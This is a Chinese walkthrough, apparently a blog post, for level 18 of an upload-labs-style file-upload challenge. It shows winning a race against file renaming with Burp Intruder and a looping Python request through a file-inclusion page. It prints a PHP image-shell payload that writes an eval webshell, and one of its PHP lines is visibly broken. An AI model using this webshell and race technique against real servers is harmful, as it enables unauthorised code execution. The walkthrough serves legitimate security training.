







# pass-18

　　查看源码：

　　代码审计：

　　用了白名单过滤文件名后缀，然后检查了文件大小以及文件是否已经存在。文件上传之后又对其进行了重命名

　　这关**只能上传图片马**了，而且需要在图片马没有被重命名之前访问它。要让图片马能够执行还**要配合其他漏洞，比如文件包含，apache解析漏洞**等。

　　这关跟上关差不多 用php文件生成一张图片马：

　　<?php fputs(fopen('../upload/webshell.php','w'),'<?php @eval($_POST['a']);?>');?>

　　<?php fputs(fopen('../upload/shell1caretreplacement.php','w'),'<?php phpinfo();?>

　　这里上传图片马发现上传路径并不在upload文件夹中 我们要进去修改一下第19关的代码文件

　　改好之后重试发现在upload文件夹里

　　用bp在intuder重放

　　这里访问图片我用的是py脚本 利用文件包含

　　import requests

　　url = "http://192.168.1.146:857/include.php?file=upload/web1.jpg"  
while True:  
    html = requests.get(url)  
    if html.status_code == 200:  
        print("OK")  
        break  
    else:  
        print("发包中")

　　和上一关差不多 先重放上传区，再重放访问区

　　连接

　　‍
